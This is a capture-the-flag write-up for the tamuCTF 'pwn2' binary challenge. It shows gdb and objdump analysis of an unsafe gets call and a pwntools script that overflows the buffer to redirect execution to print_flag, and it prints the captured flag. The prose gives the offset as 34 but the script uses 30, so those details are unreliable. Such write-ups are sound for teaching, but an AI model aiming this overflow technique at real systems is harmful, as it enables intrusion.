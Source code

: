 ## tamuCTF: pwn2
##### *tl;dr: buffer overflow into overwrite eip to call print_flag function*
#### Standard for all pwn challenges - we start a simple reconnaisance by using checksec
```
$ checksec pwn2
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
#### We get the same properties such as the previous pwn challenge. Starting the binary, we get a prompt which asks us which function to call:
```
$ ./pwn2
    Which function would you like to call?
```
#### It waits for user input, and if the user enters a valid function name, it executes that function, else it exits. But we don't really know which functions to call, so we fire up gdb and look at the disassembly of the binary.
```
$ gdb ./pwn2
    gdb-peda$ disas main
    Dump of assembler code for function main:
       [...]
       0x0000080d <+49>:	add    esp,0x10
       0x00000810 <+52>:	sub    esp,0xc
       0x00000813 <+55>:	lea    eax,[ebx-0x1670]
       0x00000819 <+61>:	push   eax
       0x0000081a <+62>:	call   0x500 <puts@plt>
       0x0000081f <+67>:	add    esp,0x10
       0x00000822 <+70>:	sub    esp,0xc
       0x00000825 <+73>:	lea    eax,[ebp-0x27]
       0x00000828 <+76>:	push   eax
       0x00000829 <+77>:	call   0x4e0 <gets@plt>
       0x0000082e <+82>:	add    esp,0x10
       0x00000831 <+85>:	sub    esp,0xc
       0x00000834 <+88>:	lea    eax,[ebp-0x27]
       0x00000837 <+91>:	push   eax
       0x00000838 <+92>:	call   0x77f <select_func>
       [...]
```
#### Interestingly enough, a ```gets``` call is executed to ask for the user input, which can be the entry point for our exploit. But another function to take note of is ```select_func``` which uses the buffer at ```[ebp-0x27]``` as the argument. Let's have a look at all the functions in the binary so we know what options are available for us to choose from:
```
gdb-peda$ info functions
    [...]
    0x000006ad  two
    0x000006d8  print_flag
    0x00000754  one
    0x0000077f  select_func
    0x000007dc  main
    [...]
```
#### We see the functions main and select func, which we already know by disassembling the main function of the binary. And we see the interesting functions, one, two, and print_flag: if we try to input these options in the prompt, maybe it'll give us the flag of the challenge.
```
$ ./pwn2
Which function would you like to call?
one
This is function one!

$ ./pwn2
two

$ ./pwn2
print_flag
```
#### Sadly, we get nothing out of it. We do want to be able to execute the print_flag function tho, as we know it prints the flag for us. Remember that the input uses ```gets``` to get user input? We can utilize that vulnerability to perform a buffer overflow into overwriting the ```eip``` register to point to the address of the ```print_flag``` function. Before we do that, we need to know the address of the function. We can do that using *objdump*:
```
$ objdump -M intel -d pwn2 | grep print_flag
    000006d8 <print_flag>:
        [...]
```
#### We take a note that ```print_flag```'s address is at ```0x000006d8```. Next thing we need to know is the exact size of the buffer to trigger the segmentation fault. Though the buffer is stored at address ```[ebp-0x27]``` which has a size of 39, the exact offset to overflow the buffer and overwrite the eip register is at offset 34. We can now create a short exploit script and send the result to the server to get the flag.
#### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'pwn.tamuctf.com'
PORT = 4322
conn = remote(HOST, PORT)

#: Exploit code
offset = 'A' * 30
eip = p32(0x000006d8)
exploit = offset + eip

#: Send data
print(conn.recvline())
conn.sendline(exploit)
print(conn.recvline())
print(conn.recvline())
```
#### And the script returns us the flag!
```
$ python exploit.py

    Which function would you like to call?

    This function is still under development.

    gigem{4ll_17_74k35_15_0n3}
```
